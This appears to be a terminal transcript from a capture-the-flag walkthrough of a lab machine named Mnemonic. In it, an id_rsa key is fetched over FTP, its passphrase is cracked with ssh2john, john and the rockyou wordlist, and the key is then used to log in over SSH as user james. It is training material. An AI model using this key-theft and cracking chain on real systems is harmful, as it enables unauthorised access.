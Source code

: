 ```bash
226 Directory send OK.
ftp> get not.txt
local: not.txt remote: not.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for not.txt (31 bytes).
226 Transfer complete.
31 bytes received in 0.01 secs (5.0897 kB/s)
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1766 bytes).
226 Transfer complete.
1766 bytes received in 0.00 secs (2.1211 MB/s)
ftp> exit
...
:~/Mnemonic# cat not.txt
james change ftp user password
:~/Mnemonic# ls
backups.zip  id_rsa  not.txt
:~/Mnemonic# locate ssh2john
/opt/john/ssh2john.py
:~/Mnemonic# python2 /opt/john/ssh2john.py id_rsa > hash
:~/Mnemonic# ls
backups.zip  hash  id_rsa  not.txt
:~/Mnemonic# john --worddlist=/usr/share/wordlists/rockyou.txt hash
Unknown option: "--worddlist=/usr/share/wordlists/rockyou.txt"
:~/Mnemonic# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bluelove         (id_rsa)
1g 0:00:00:10 DONE (2025-05-10 23:11) 0.09842g/s 1411Kp/s 1411Kc/s 1411KC/s *7¡Vamos!
Session completed. 
:~/Mnemonic# 
...
:~/Mnemonic# chmod 600 id_rsa
:~/Mnemonic# ssh -p 1337 james@TargetIP
james@10.10.229.90's password: 
...
  => There is 1 zombie process.
51 packages can be updated.
0 updates are security updates.
...
james@mnemonic:~$ pwd
/home/james
james@mnemonic:~$ ls -la
total 44
drwx------  6 james james 4096 Jul 14  2020 .
drwxr-xr-x 10 root  root  4096 Jul 14  2020 ..
-rw-r--r--  1 vill  vill   116 Jul 14  2020 6450.txt
lrwxrwxrwx  1 james james    9 Jul 14  2020 .bash_history -> /dev/null
-rw-r--r--  1 james james  220 Jul 13  2020 .bash_logout
-rw-r--r--  1 james james 3771 Jul 13  2020 .bashrc
drwx------  2 james james 4096 Jul 13  2020 .cache
drwx------  3 james james 4096 Jul 13  2020 .gnupg
drwxrwxr-x  3 james james 4096 Jul 13  2020 .local
```